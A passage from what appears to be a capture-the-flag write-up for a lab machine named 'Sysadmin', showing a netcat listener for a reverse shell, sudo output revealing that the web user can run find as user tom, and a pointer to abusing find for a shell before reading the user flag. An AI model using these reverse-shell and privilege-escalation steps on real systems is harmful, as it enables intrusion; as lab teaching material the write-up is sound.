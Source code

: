 ### **Local Machine:**
    root@kali ~/D/M/Sysadmin# nc -lnvp 4444

![image](https://user-images.githubusercontent.com/76552238/173407409-bb8c1892-554e-4fa2-b4ea-00c5ba8f04c2.png)

## #3 Delivery 

Going to the **`/home`** directory we see a directory named **`tom`**. This means there is a user named **`tom`** on the machine.

    www-data@Sysadmin:~$ sudo -ll

    Matching Defaults entries for www-data on Sysadmin:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-data may run the following commands on Sysadmin:
        (tom) NOPASSWD: /usr/bin/find
    www-data@Sysadmin:/home$ sudo -ll
    sudo -ll
    Matching Defaults entries for www-data on Sysadmin:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-data may run the following commands on Sysadmin:

    Sudoers entry:
        RunAsUsers: tom
        Options: !authenticate
        Commands:
            /usr/bin/find

We can run the command **`find`** as the user **`tom`** on the remote machine.
We can [**abuse the ***`find`*** command**][3] to get a shell as the user **`tom`** on the machine.

![image](https://user-images.githubusercontent.com/76552238/173408362-5aa9eec0-46b2-4557-b53d-58c964029e07.png)

We can now read the first flag.

    tom@Sysadmin:~$ cat user.txt                                                                                               
    qPoxwFd0Igm00OLa5Dwubh9Cr 

There is a text file on the **`/home/tom`** directory.

    tom@Sysadmin:~$ cat notes.txt

    Hi Tom,                                                                                                    
                                                                                                            
    remember that due to security policies only you can access the resource..                                  
                                                                                                            
    I repeat,                                                                                                  
                                                                                                            
    only you                                                                                                   
                                                                                                            
                                                                                                            
                                                                                                            
                                                                                                            
                                                                                                            

[1]: https://morsecode.world/international/decoder/audio-decoder-adaptive.html "Morse Code Adaptive Audio Decoder"
[2]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "Github: pentestmonkey's Php Reverse Shell"
[3]: https://gtfobins.github.io/gtfobins/find/ "gtfobins: Find Command Privilege Escalation"
[4]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS "Github: LinPeas"
